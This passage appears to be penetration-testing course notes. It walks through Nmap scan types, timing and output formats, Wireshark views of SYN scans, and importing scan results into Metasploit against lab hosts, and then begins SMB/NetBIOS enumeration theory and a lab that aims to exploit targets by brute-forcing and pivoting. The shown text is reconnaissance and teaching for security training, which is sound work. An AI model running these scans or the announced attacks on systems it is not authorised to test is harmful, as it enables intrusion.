  --spoof-mac <mac address/prefix/vendor name>: Spoof your MAC address
  --badsum: Send packets with a bogus TCP/UDP/SCTP checksum
OUTPUT:
  -oN/-oX/-oS/-oG <file>: Output scan in normal, XML, s|<rIpt kIddi3,
     and Grepable format, respectively, to the given filename.
  -oA <basename>: Output in the three major formats at once
  -v: Increase verbosity level (use -vv or more for greater effect)
  -d: Increase debugging level (use -dd or more for greater effect)
  --reason: Display the reason a port is in a particular state
  --open: Only show open (or possibly open) ports
  --packet-trace: Show all packets sent and received
  --iflist: Print host interfaces and routes (for debugging)
  --append-output: Append to rather than clobber specified output files
  --resume <filename>: Resume an aborted scan
  --noninteractive: Disable runtime interactions via keyboard
  --stylesheet <path/URL>: XSL stylesheet to transform XML output to HTML
  --webxml: Reference stylesheet from Nmap.Org for more portable XML
  --no-stylesheet: Prevent associating of XSL stylesheet w/XML output
MISC:
  -6: Enable IPv6 scanning
  -A: Enable OS detection, version detection, script scanning, and traceroute
  --datadir <dirname>: Specify custom Nmap data file location
  --send-eth/--send-ip: Send using raw ethernet frames or IP packets
  --privileged: Assume that the user is fully privileged
  --unprivileged: Assume the user lacks raw socket privileges
  -V: Print version number
  -h: Print this help summary page.
EXAMPLES:
  nmap -v -A scanme.nmap.org
  nmap -v -sn 192.168.0.0/16 10.0.0.0/8
  nmap -v -iR 10000 -Pn -p 80
SEE THE MAN PAGE (https://nmap.org/book/man.html) FOR MORE OPTIONS AND EXAMPLES
```

_Identify the network interfaces and their configuration on the target machine to understand the network environment._

`ifconfig`:
```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.1.0.4  netmask 255.255.0.0  broadcast 10.1.255.255
        ether 02:42:0a:01:00:04  txqueuelen 0  (Ethernet)
        RX packets 808  bytes 90442 (88.3 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 657  bytes 1944326 (1.8 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.155.196.2  netmask 255.255.255.0  broadcast 192.155.196.255 ←
        ether 02:42:c0:9b:c4:02  txqueuelen 0  (Ethernet)
        RX packets 18  bytes 1516 (1.4 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 1896  bytes 2937260 (2.8 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1896  bytes 2937260 (2.8 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

_Use Nmap to perform a ping scan (`-sn`) across the entire 192.155.196.0/24 subnet to identify active hosts._

`nmap -sn 192.155.196.0/24`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-28 13:53 IST
Nmap scan report for 192.155.196.1
Host is up (0.000051s latency).
MAC Address: 02:42:B6:5C:52:10 (Unknown)
Nmap scan report for demo.ine.local (192.155.196.3) ←
Host is up (0.000025s latency). ←
MAC Address: 02:42:C0:9B:C4:03 (Unknown)
Nmap scan report for INE (192.155.196.2)
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 1.97 seconds
```

_Perform a SYN scan (`-sS`) with service version detection (`-sV`) against all ports (`-p-`) on the identified host 192.155.196.3._

`nmap -Pn -sS -sV -p- 192.155.196.3`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-28 14:54 IST
Nmap scan report for demo.ine.local (192.155.196.3)
Host is up (0.000024s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
6421/tcp  open  mongodb MongoDB 2.6.10
41288/tcp open  achat   AChat chat system
55413/tcp open  ftp     vsftpd 3.0.3
MAC Address: 02:42:C0:9B:C4:03 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.48 seconds ←
```

_Perform a SYN scan (`-sS`) with a lower timing template (`-T2`) against all ports (`-p-`) on the identified host 192.155.196.3._

`nmap -sS -p- -T2 192.155.196.3`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-28 14:55 IST
Nmap scan report for demo.ine.local (192.155.196.3)
Host is up (0.000026s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
6421/tcp  open  mongodb MongoDB 2.6.10
41288/tcp open  achat   AChat chat system
55413/tcp open  ftp     vsftpd 3.0.3
MAC Address: 02:42:C0:9B:C4:03 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.55 seconds ←
```

_Perform a SYN scan (`-sS`) with a higher timing template (`-T4`) against all ports (`-p-`) on the identified host 192.155.196.3._

`nmap -sS -p- -T4 192.155.196.3`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-28 14:55 IST
Nmap scan report for demo.ine.local (192.155.196.3)
Host is up (0.000026s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
6421/tcp  open  mongodb MongoDB 2.6.10
41288/tcp open  achat   AChat chat system
55413/tcp open  ftp     vsftpd 3.0.3
MAC Address: 02:42:C0:9B:C4:03 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.55 seconds ←
```

_Perform a SYN scan (`-sS`) with a host timeout of 5 seconds against all ports (`-p-`) on the identified host 192.155.196.3._

`nmap -sS -p- --host-timeout 5s 192.155.196.3`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-28 14:59 IST
Nmap scan report for demo.ine.local (192.155.196.3)
Host is up (0.000024s latency).
Skipping host demo.ine.local (192.155.196.3) due to host timeout ←
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.73 seconds
```

_Perform a SYN scan (`-sS`) with service version detection (`-sV`) against a specific port (`-p6421`) on the identified host 192.155.196.3._

`nmap -Pn -sS -sV -p6421 192.155.196.3`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-28 15:09 IST
Nmap scan report for demo.ine.local (192.155.196.3)
Host is up (0.000050s latency).

PORT     STATE SERVICE
6421/tcp open  nim-wan
MAC Address: 02:42:C0:9B:C4:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.11 seconds ←
```

_Monitor the traffic generated using Wireshark._

`sudo wireshark -i eth1 &`:

| No. | Time                     | Source           | Destination       | Protocol | Length | Info                                          |
|-----|--------------------------|------------------|-------------------|----------|--------|-----------------------------------------------|
| 1   | 09:39:47.469769082 ←       | 02:42:c0:9b:c4:02| Broadcast         | ARP      | 42     | Who has 192.155.196.3? Tell 192.155.196.2     |
| 2   | 09:39:47.469802672 ←       | 02:42:c0:9b:c4:03| 02:42:c0:9b:c4:02 | ARP      | 42     | 192.155.196.3 is at 02:42:c0:9b:c4:03         |
| 3   | 09:39:47.518280758 ←       | 192.155.196.2    | 192.155.196.3     | TCP      | 58     | 43004 → 6421 [SYN] Seq=0 Win=1024 Len=0 MSS=1460 |
| 4   | 09:39:47.518373320 ←       | 192.155.196.3    | 192.155.196.2     | TCP      | 58     | 6421 → 43004 [SYN, ACK] Seq=0 Ack=1 Win=64240 Len=0 MSS=1460 |
| 5   | 09:39:47.518412760 ←       | 192.155.196.2    | 192.155.196.3     | TCP      | 54     | 43004 → 6421 [RST] Seq=1 Win=0 Len=0          |

_Perform a SYN scan (`-sS`) with a scan delay of 5 seconds per probe against a specific port (`-p6421`) on the identified host 192.155.196.3._

`nmap -Pn -sS -sV -p --scan-delay 5s 192.155.196.3`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-28 15:10 IST
Nmap scan report for demo.ine.local (192.155.196.3)
Host is up (0.000063s latency).

PORT     STATE SERVICE
6421/tcp open  nim-wan
MAC Address: 02:42:C0:9B:C4:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 10.09 seconds ←
```

_Monitor the network traffic generated by the scan with a 5-second delay between probes using Wireshark._

`sudo wireshark -i eth1 &`:

| No. | Time                     | Source           | Destination       | Protocol | Length | Info                                          |
|-----|--------------------------|------------------|-------------------|----------|--------|-----------------------------------------------|
| 1   | 09:40:34.093610895        | 02:42:c0:9b:c4:02| Broadcast         | ARP      | 42     | Who has 192.155.196.3? Tell 192.155.196.2     |
| 2   | 09:40:34.093653955        | 02:42:c0:9b:c4:03| 02:42:c0:9b:c4:02 | ARP      | 42     | 192.155.196.3 is at 02:42:c0:9b:c4:03         |
| 3   | 09:40:39.134659492 ←       | 192.155.196.2    | 192.155.196.3     | TCP      | 58     | 38145 → 6421 [SYN] Seq=0 Win=1024 Len=0 MSS=1460 |
| 4   | 09:40:39.134746324        | 192.155.196.3    | 192.155.196.2     | TCP      | 58     | 6421 → 38145 [SYN, ACK] Seq=0 Ack=1 Win=64240 Len=0 MSS=1460 |
| 5   | 09:40:39.134759424        | 192.155.196.2    | 192.155.196.3     | TCP      | 54     | 38145 → 6421 [RST] Seq=1 Win=0 Len=0          |
| 6   | 09:40:44.354473459 ←       | 02:42:c0:9b:c4:03| 02:42:c0:9b:c4:02 | ARP      | 42     | Who has 192.155.196.2? Tell 192.155.196.3     |
| 7   | 09:40:44.354489999        | 02:42:c0:9b:c4:02| 02:42:c0:9b:c4:03 | ARP      | 42     | 192.155.196.2 is at 02:42:c0:9b:c4:02         |

### Nmap Output Formats - Lab

_Check the available options in Nmap by displaying the help page._

`nmap --help`:
```
Nmap 7.94SVN ( https://nmap.org )
Usage: nmap [Scan Type(s)] [Options] {target specification}
TARGET SPECIFICATION:
  Can pass hostnames, IP addresses, networks, etc.
  Ex: scanme.nmap.org, microsoft.com/24, 192.168.0.1; 10.0.0-255.1-254
  -iL <inputfilename>: Input from list of hosts/networks
  -iR <num hosts>: Choose random targets
  --exclude <host1[,host2][,host3],...>: Exclude hosts/networks
  --excludefile <exclude_file>: Exclude list from file
HOST DISCOVERY:
  -sL: List Scan - simply list targets to scan
  -sn: Ping Scan - disable port scan 
  -Pn: Treat all hosts as online -- skip host discovery 
  -PS/PA/PU/PY[portlist]: TCP SYN/ACK, UDP or SCTP discovery to given ports
  -PE/PP/PM: ICMP echo, timestamp, and netmask request discovery probes
  -PO[protocol list]: IP Protocol Ping
  -n/-R: Never do DNS resolution/Always resolve [default: sometimes] 
  --dns-servers <serv1[,serv2],...>: Specify custom DNS servers
  --system-dns: Use OS's DNS resolver
  --traceroute: Trace hop path to each host
SCAN TECHNIQUES:
  -sS/sT/sA/sW/sM: TCP SYN/Connect()/ACK/Window/Maimon scans
  -sU: UDP Scan
  -sN/sF/sX: TCP Null, FIN, and Xmas scans
  --scanflags <flags>: Customize TCP scan flags
  -sI <zombie host[:probeport]>: Idle scan
  -sY/sZ: SCTP INIT/COOKIE-ECHO scans
  -sO: IP protocol scan
  -b <FTP relay host>: FTP bounce scan
PORT SPECIFICATION AND SCAN ORDER:
  -p <port ranges>: Only scan specified ports
    Ex: -p22; -p1-65535; -p U:53,111,137,T:21-25,80,139,8080,S:9
  --exclude-ports <port ranges>: Exclude the specified ports from scanning
  -F: Fast mode - Scan fewer ports than the default scan
  -r: Scan ports sequentially - don't randomize
  --top-ports <number>: Scan <number> most common ports
  --port-ratio <ratio>: Scan ports more common than <ratio>
SERVICE/VERSION DETECTION:
  -sV: Probe open ports to determine service/version info
  --version-intensity <level>: Set from 0 (light) to 9 (try all probes)
  --version-light: Limit to most likely probes (intensity 2)
  --version-all: Try every single probe (intensity 9)
  --version-trace: Show detailed version scan activity (for debugging)
SCRIPT SCAN:
  -sC: equivalent to --script=default
  --script=<Lua scripts>: <Lua scripts> is a comma separated list of
           directories, script-files or script-categories
  --script-args=<n1=v1,[n2=v2,...]>: provide arguments to scripts
  --script-args-file=filename: provide NSE script args in a file
  --script-trace: Show all data sent and received
  --script-updatedb: Update the script database.
  --script-help=<Lua scripts>: Show help about scripts.
           <Lua scripts> is a comma-separated list of script-files or
           script-categories.
OS DETECTION:
  -O: Enable OS detection
  --osscan-limit: Limit OS detection to promising targets
  --osscan-guess: Guess OS more aggressively
TIMING AND PERFORMANCE:
  Options which take <time> are in seconds, or append 'ms' (milliseconds),
  's' (seconds), 'm' (minutes), or 'h' (hours) to the value (e.g. 30m).
  -T<0-5>: Set timing template (higher is faster)
  --min-hostgroup/max-hostgroup <size>: Parallel host scan group sizes
  --min-parallelism/max-parallelism <numprobes>: Probe parallelization
  --min-rtt-timeout/max-rtt-timeout/initial-rtt-timeout <time>: Specifies
      probe round trip time.
  --max-retries <tries>: Caps number of port scan probe retransmissions.
  --host-timeout <time>: Give up on target after this long
  --scan-delay/--max-scan-delay <time>: Adjust delay between probes
  --min-rate <number>: Send packets no slower than <number> per second
  --max-rate <number>: Send packets no faster than <number> per second
FIREWALL/IDS EVASION AND SPOOFING:
  -f; --mtu <val>: fragment packets (optionally w/given MTU)
  -D <decoy1,decoy2[,ME],...>: Cloak a scan with decoys
  -S <IP_Address>: Spoof source address
  -e <iface>: Use specified interface
  -g/--source-port <portnum>: Use given port number
  --proxies <url1,[url2],...>: Relay connections through HTTP/SOCKS4 proxies
  --data <hex string>: Append a custom payload to sent packets
  --data-string <string>: Append a custom ASCII string to sent packets
  --data-length <num>: Append random data to sent packets
  --ip-options <options>: Send packets with specified ip options
  --ttl <val>: Set IP time-to-live field
  --spoof-mac <mac address/prefix/vendor name>: Spoof your MAC address
  --badsum: Send packets with a bogus TCP/UDP/SCTP checksum
OUTPUT:
  -oN/-oX/-oS/-oG <file>: Output scan in normal, XML, s|<rIpt kIddi3,
     and Grepable format, respectively, to the given filename. ←
  -oA <basename>: Output in the three major formats at once ←
  -v: Increase verbosity level (use -vv or more for greater effect) ←
  -d: Increase debugging level (use -dd or more for greater effect)
  --reason: Display the reason a port is in a particular state ←
  --open: Only show open (or possibly open) ports ←
  --packet-trace: Show all packets sent and received
  --iflist: Print host interfaces and routes (for debugging)
  --append-output: Append to rather than clobber specified output files
  --resume <filename>: Resume an aborted scan
  --noninteractive: Disable runtime interactions via keyboard
  --stylesheet <path/URL>: XSL stylesheet to transform XML output to HTML
  --webxml: Reference stylesheet from Nmap.Org for more portable XML
  --no-stylesheet: Prevent associating of XSL stylesheet w/XML output
MISC:
  -6: Enable IPv6 scanning
  -A: Enable OS detection, version detection, script scanning, and traceroute
  --datadir <dirname>: Specify custom Nmap data file location
  --send-eth/--send-ip: Send using raw ethernet frames or IP packets
  --privileged: Assume that the user is fully privileged
  --unprivileged: Assume the user lacks raw socket privileges
  -V: Print version number
  -h: Print this help summary page.
EXAMPLES:
  nmap -v -A scanme.nmap.org
  nmap -v -sn 192.168.0.0/16 10.0.0.0/8
  nmap -v -iR 10000 -Pn -p 80
SEE THE MAN PAGE (https://nmap.org/book/man.html) FOR MORE OPTIONS AND EXAMPLES
```

_Identify the network interfaces and their configuration on the target machine to understand the network environment._

`ifconfig`:
```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.1.0.4  netmask 255.255.0.0  broadcast 10.1.255.255
        ether 02:42:0a:01:00:04  txqueuelen 0  (Ethernet)
        RX packets 808  bytes 90442 (88.3 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 657  bytes 1944326 (1.8 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.155.196.2  netmask 255.255.255.0  broadcast 192.155.196.255 ←
        ether 02:42:c0:9b:c4:02  txqueuelen 0  (Ethernet)
        RX packets 18  bytes 1516 (1.4 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 1896  bytes 2937260 (2.8 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1896  bytes 2937260 (2.8 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

_Perform an Nmap scan using SYN scan (-sS), skip host discovery (-Pn), and scan specific ports (80, 6421, 3389). Save the output in the normal format (-oN)._

`nmap -Pn -sS -p80,6421,3389 -T4 192.155.196.3 -oN nmap_normal.txt`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-28 15:25 IST
Nmap scan report for demo.ine.local (192.155.196.3)
Host is up (0.000036s latency).

PORT     STATE  SERVICE
80/tcp   closed http
3389/tcp closed ms-wbt-server
6421/tcp open   nim-wan
MAC Address: 02:42:C0:9B:C4:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.09 seconds
```

_Display the content of the saved Nmap scan in the normal format._

`cat ./nmap_normal.txt`:
```
# Nmap 7.94SVN scan initiated Wed Aug 28 15:27:17 2024 as: nmap -Pn -sS -p80,6421,3389 -T4 -oN nmap_normal.txt 192.155.196.3
Nmap scan report for demo.ine.local (192.155.196.3)
Host is up (0.000041s latency).

PORT     STATE  SERVICE
80/tcp   closed http
3389/tcp closed ms-wbt-server
6421/tcp open   nim-wan
MAC Address: 02:42:C0:9B:C4:03 (Unknown)

# Nmap done at Wed Aug 28 15:27:17 2024 -- 1 IP address (1 host up) scanned in 0.10 seconds
```

_Perform an Nmap scan using SYN scan (-sS), skip host discovery (-Pn), and scan specific ports (80, 6421, 3389). Save the output in XML format (-oX)._

`nmap -Pn -sS -p80,6421,3389 -T4 192.155.196.3 -oX nmap_xml.xml`

_Display the content of the saved Nmap scan in the XML format._

`cat ./nmap_xml.xml`:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE nmaprun>
<?xml-stylesheet href="file:///usr/bin/../share/nmap/nmap.xsl" type="text/xsl"?>
<!-- Nmap 7.94SVN scan initiated Wed Aug 28 15:25:46 2024 as: nmap -Pn -sS -p80,6421,3389 -T4 -oX nmap_xml.xml 192.155.196.3 -->
<nmaprun scanner="nmap" args="nmap -Pn -sS -p80,6421,3389 -T4 -oX nmap_xml.xml 192.155.196.3" start="1724838946" startstr="Wed Aug 28 15:25:46 2024" version="7.94SVN" xmloutputversion="1.05">
<scaninfo type="syn" protocol="tcp" numservices="3" services="80,3389,6421"/>
<verbose level="0"/>
<debugging level="0"/>
<hosthint><status state="up" reason="arp-response" reason_ttl="0"/>
<address addr="192.155.196.3" addrtype="ipv4"/>
<address addr="02:42:C0:9B:C4:03" addrtype="mac"/>
<hostnames>
</hostnames>
</hosthint>
<host starttime="1724838946" endtime="1724838946"><status state="up" reason="arp-response" reason_ttl="0"/>
<address addr="192.155.196.3" addrtype="ipv4"/>
<address addr="02:42:C0:9B:C4:03" addrtype="mac"/>
<hostnames>
<hostname name="demo.ine.local" type="PTR"/>
</hostnames>
<ports><port protocol="tcp" portid="80"><state state="closed" reason="reset" reason_ttl="64"/><service name="http" method="table" conf="3"/></port>
<port protocol="tcp" portid="3389"><state state="closed" reason="reset" reason_ttl="64"/><service name="ms-wbt-server" method="table" conf="3"/></port>
<port protocol="tcp" portid="6421"><state state="open" reason="syn-ack" reason_ttl="64"/><service name="nim-wan" method="table" conf="3"/></port>
</ports>
<times srtt="36" rttvar="2118" to="100000"/>
</host>
<runstats><finished time="1724838946" timestr="Wed Aug 28 15:25:46 2024" summary="Nmap done at Wed Aug 28 15:25:46 2024; 1 IP address (1 host up) scanned in 0.09 seconds" elapsed="0.09" exit="success"/><hosts up="1" down="0" total="1"/>
</runstats>
</nmaprun>
```

_Start the PostgreSQL service, which is often required for Metasploit database operations._

`sudo service postgresql start`:
```
Starting PostgreSQL 16 database server: main. ←
```

_Launch Metasploit Framework in quiet mode (-q) to minimize output during initialization._

`msfconsole -q`

_Display the help information for the `workspace` command in Metasploit, which manages workspaces._

`workspace --help`:
```
Usage:
    workspace          List workspaces
    workspace [name]   Switch workspace

OPTIONS:

    -a, --add <name>          Add a workspace. ←
    -d, --delete <name>       Delete a workspace.
    -D, --delete-all          Delete all workspaces.
    -h, --help                Help banner.
    -l, --list                List workspaces. ←
    -r, --rename <old> <new>  Rename a workspace.
    -S, --search <name>       Search for a workspace.
    -v, --list-verbose        List workspaces verbosely.
```

_Add a new workspace named 'pentest_1' in Metasploit to organize your work._

`workspace --add pentest_1`:
```
[*] Added workspace: pentest_1 ←
[*] Workspace: pentest_1
```

_List all workspaces in Metasploit to verify that 'pentest_1' was added._

`workspace --list`:
```
  default
* pentest_1 ←
```

_Check the database connection status in Metasploit to ensure it's connected to PostgreSQL._

`db_status`:
```
[*] Connected to msf. Connection type: postgresql. ←
```

_Import the previously saved Nmap scan in XML format into Metasploit's database._

`db_import ./nmap_xml.xml`:
```
[*] Importing 'Nmap XML' data
[*] Import: Parsing with 'Nokogiri v1.13.10'
[*] Importing host 192.155.196.3
[*] Successfully imported /root/nmap_xml.xml ←
```

_List all hosts in the current Metasploit workspace to verify that the Nmap scan results were imported._

`hosts`:
```
Hosts
=====

address        mac                name            os_name  os_flavor  os_sp  purpose  info  comments
-------        ---                ----            -------  ---------  -----  -------  ----  --------
192.155.196.3  02:42:c0:9b:c4:03  demo.ine.local  Unknown                    device ←
```

_List all services in the current Metasploit workspace to see the details of the imported Nmap scan._

`services`:
```
Services
========

host           port  proto  name           state   info
----           ----  -----  ----           -----   ----
192.155.196.3  80    tcp    http           closed
192.155.196.3  3389  tcp    ms-wbt-server  closed
192.155.196.3  6421  tcp    nim-wan        open ←
```

_Perform an Nmap scan directly from Metasploit using SYN scan (-sS), service version detection (-sV), and scan a specific port (55413). Skip host discovery (-Pn)._

`db_nmap -Pn -sS -sV -p55413 192.155.196.3`:
```
[*] Nmap: Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-28 15:49 IST
[*] Nmap: Nmap scan report for demo.ine.local (192.155.196.3)
[*] Nmap: Host is up (0.000062s latency).
[*] Nmap: PORT      STATE SERVICE VERSION
[*] Nmap: 55413/tcp open  ftp     vsftpd 3.0.3 ←
[*] Nmap: MAC Address: 02:42:C0:9B:C4:03 (Unknown)
[*] Nmap: Service Info: OS: Unix
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 0.30 seconds
```

_List all services again in the current Metasploit workspace to see the results of the new scan._

`services`:
```
Services
========

host           port   proto  name           state   info
----           ----   -----  ----           -----   ----
192.155.196.3  80     tcp    http           closed
192.155.196.3  3389   tcp    ms-wbt-server  closed
192.155.196.3  6421   tcp    nim-wan        open
192.155.196.3  55413  tcp    ftp            open    vsftpd 3.0.3 ←
```

_Exit Metasploit._

`exit`

_Launch Metasploit Framework in quiet mode (-q) again._

`msfconsole -q`

_List all workspaces in Metasploit to confirm the available workspaces._

`workspace --list`:
```
  pentest_1 ←
* default
```

_Switch to the 'pentest_1' workspace in Metasploit._

`workspace pentest_1`:
```
[*] Workspace: pentest_1 ←
```

_List all hosts in the 'pentest_1' workspace to ensure that the correct workspace is selected._

`hosts`:
```
Hosts
=====

address        mac                name            os_name  os_flavor  os_sp  purpose  info  comments
-------        ---                ----            -------  ---------  -----  -------  ----  --------
192.155.196.3  02:42:c0:9b:c4:03  demo.ine.local  Unknown                    device ←
```

_Exit Metasploit._

`exit`

_Perform an Nmap scan using SYN scan (-sS), skip host discovery (-Pn), and scan specific ports (80, 6421, 3389). Save the output in Grepable format (-oG)._

`nmap -Pn -sS -p80,6421,3389 -T4 192.155.196.3 -oG nmap_grep.txt`

_Display the content of the saved Nmap scan in Grepable format._

`cat ./nmap_grep.txt`:
```
# Nmap 7.94SVN scan initiated Wed Aug 28 15:27:04 2024 as: nmap -Pn -sS -p80,6421,3389 -T4 -oG nmap_grep.txt 192.155.196.3
Host: 192.155.196.3 (demo.ine.local)    Status: Up
Host: 192.155.196.3 (demo.ine.local)    Ports: 80/closed/tcp//http///, 3389/closed/tcp//ms-wbt-server///, 6421/open/tcp//nim-wan///
# Nmap done at Wed Aug 28 15:27:04 2024 -- 1 IP address (1 host up) scanned in 0.09 seconds
```

_Process the Grepable Nmap output to extract and format relevant information about hosts and open ports._

`egrep -v "^#|Status: Up" nmap_grep.txt | cut -d' ' -f2,4- | sed -n -e 's/Ignored.*//p' | awk '{print "Host: " $1 " Ports: " NF-1; $1=""; for(i=2; i<=NF; i++) { a=a" "$i; }; split(a,s,","); for(e in s) { split(s[e],v,"/"); printf "%-8s %-7s %s\n", v[2], v[3], v[1], v[5]}; a="" }'`:
```
Host: 10.4.19.132 Ports: 8
open    tcp/135  msrpc
open    tcp/139  netbios-ssn
open    tcp/445  microsoft-ds
open    tcp/3389 ms-wbt-server
open    tcp/49152 unknown
open    tcp/49153 unknown
open    tcp/49154 unknown
open    tcp/49155 unknown
```

---

## Enumeration

### Introduction to Enumeration - Theory

After the host discovery and port scanning phase of a penetration test, the next logical phase is going to involve service enumeration.

The goal of service enumeration is to gather additional, more specific/detailed information about the hosts/systems on a network and the services running on said hosts.

This includes information like account names, shares, misconfigured services and so on.

Like the scanning phase, enumeration involves active connections to the remote devices in the network.

There are many protocols on networked systems that an attacker can target if they have been misconfigured or have been left enabled.

In this section of the course, we will be exploring the various tools and techniques that can be used to interact with these protocols, with the intent of eventually/potentially exploiting them in later phases.

### Windows Enumeration: SMB and NetBIOS Enumeration - Theory

#### SMB and NetBIOS Enumeration

NetBIOS and SMB are two different technologies, but they're <u>related in the context of networking and file sharing on Windows networks</u>.

Let's break down each of them to understand their roles and how they differ.

##### NetBIOS (Network Basic Input/Output System)

NetBIOS is an API and a set of network protocols for providing communication services over a local network. It's used primarily <u>to allow applications on different computers to find and interact with each other on a network</u>.

**Functions:** NetBIOS offers three primary services:
	- Name Service (NetBIOS-NS): Allows computers to register, unregister, and resolve names in a local network.
	- Datagram Service (NetBIOS-DGM): Supports connectionless communication and broadcasting.
	- Session Service (NetBIOS-SSN): Supports connection-oriented communication for more reliable data transfers.

**Ports:** NetBIOS typically uses ports 137 (Name Service), 138 (Datagram Service), and 139 (Session Service) over UDP and TCP.

##### SMB (Server Message Block)

SMB is a network file sharing protocol that <u>allows computers on a network to share files, printers, and other resources</u>. It is the primary protocol used in Windows networks for these purposes.

**Functions:** SMB provides features for file and printer sharing, named pipes, and inter-process communication (IPC). It allows users to access files on remote computers as if they were local.

**Versions:** SMB has several versions:
	- SMB 1.0: The original version, which had security vulnerabilities. It was used with older operating systems like Windows XP.
	- SMB 2.0/2.1: Introduced with Windows Vista/Windows Server 2008, offering improved performance and security.
	- SMB 3.0+: Introduced with Windows 8/Windows Server 2012, adding features like encryption, multichannel support, and improvements for virtualization.

**Ports:** SMB generally uses port 445 for direct SMB traffic (bypassing NetBIOS) and port 139 when operating with NetBIOS.

##### SMB and NetBIOS

While NetBIOS and SMB were once closely linked, <u>modern networks rely primarily on SMB for file and printer sharing, often using DNS and other mechanisms for name resolution instead of NetBIOS</u>.

Modern implementations of Windows primarily use SMB and can work without NetBIOS, <u>however, NetBIOS over TCP 139 is required for backward compatibility</u> and are often enabled together.

### Windows Enumeration: SMB and NetBIOS Enumeration (with Nmap, smbclient) - Lab

#### Lab Environment

You will learn to enumerate the SMB service and exploit it using different brute-forcing and exploitation tools. Also, it covers pivoting and how to leverage net utility to mount the shared drives in the pivot network.

In this lab environment, the user will access a Kali GUI instance. A vulnerable SMB service can be accessed using the tools installed on Kali on `demo.ine.local` and `demo1.ine.local`.

**Objective:** Exploit both the target and find the flag!

The best tools for this lab are:
	- Metasploit Framework
	- Nmap
	- Hydra
	- Proxychains.

#### Lab Solution

<span style="color: #e57373;">**Attacker machine**</span>.

`ifconfig`:
```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.1.0.9  netmask 255.255.0.0  broadcast 10.1.255.255
        ether 02:42:0a:01:00:09  txqueuelen 0  (Ethernet)
        RX packets 1269  bytes 116598 (113.8 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1409  bytes 1885292 (1.7 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.50.3  netmask 255.255.255.0  broadcast 10.10.50.255 ←
        ether 02:42:0a:0a:2a:03  txqueuelen 0  (Ethernet)
        RX packets 10  bytes 796 (796.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 2372  bytes 18243001 (17.3 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2372  bytes 18243001 (17.3 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

`fping -a -g 10.10.50.0/24 2> /dev/null`:
```
10.10.50.1 is alive
10.10.50.3 is alive
```

`cat /etc/hosts`:
```
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
